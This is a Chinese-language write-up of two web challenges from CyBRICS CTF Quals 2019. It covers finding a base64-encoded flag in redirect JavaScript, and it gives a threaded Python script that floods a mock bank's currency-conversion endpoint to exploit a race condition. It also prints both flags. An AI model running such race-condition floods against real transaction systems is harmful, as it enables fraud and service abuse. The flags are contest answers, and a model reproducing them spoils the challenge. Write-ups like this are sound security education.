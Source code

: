 # CyBRICS CTF Quals 2019 Web 题解
---

## Warmup
`http://45.32.148.106/`
打开网站，自动跳转到 `http://45.32.148.106/final.html`
一大堆字，直接查看final.html的源码，没什么发现
然后把final.html删掉，发现index.html下有个自动跳转搭配final.html的js代码，拉到最下面可以看到base64后的flag
flag: cybrics{4b646c7985fec6189dadf8822955b034}


## Bitkoff Bank
`http://95.179.148.72:8083/index.php`
注册登录后发现
![](./pics/CyBRICS CTF Quals 2019 Web 2_1.png)
可以看到自带0.00003BTC 且要买flag需要UDS大于1
几个功能分别为
MINE BTC:每次请求BTC增加0.0000000001
buy auto-miner:页面添加js代码，$0.01购买自动挖矿，并没什么用
最后一个是货币转换，UDS和UTC可以互换，比例为 0.00001 BTC : 0.109056 USD
（这里转换货币前端限制最低0.0001 可以通过抓包改）
常见思路就是条件竞争了
```python
#!/usr/bin/env python
# -*- coding:utf-8 -*-    
import requests
import threading

s = requests.session()
url = "http://95.179.148.72:8083/index.php"
cookies = {"name":"ccccc014","password":"ccccc014"}
data1 = {"from_currency":"btc","to_currency":"usd","amount":"0.00003"}
data2 = {"from_currency":"usd","to_currency":"btc","amount":"0.3"}

def from_BTC_to_UDS():
	for i in range(0,1000):
		r = s.post(url = url , cookies = cookies , data = data1)

def from_UDS_to_BTC():
	for i in range(0,1000):
		r = s.post(url = url , cookies = cookies, data = data2)

t1 = threading.Thread(target = from_BTC_to_UDS)
t2 = threading.Thread(target = from_UDS_to_BTC)
t1.start()
t2.start()
```
可以手动把amount越加越大提高效率，跑一会就可以了
当然，还有一种更常见的思路。多线程挖矿~  亲测可行（就是跑的久x点）
![](./pics/CyBRICS CTF Quals 2019 Web 2_2.png)
flag: cybrics{50_57R4n93_pR3c1510n} 
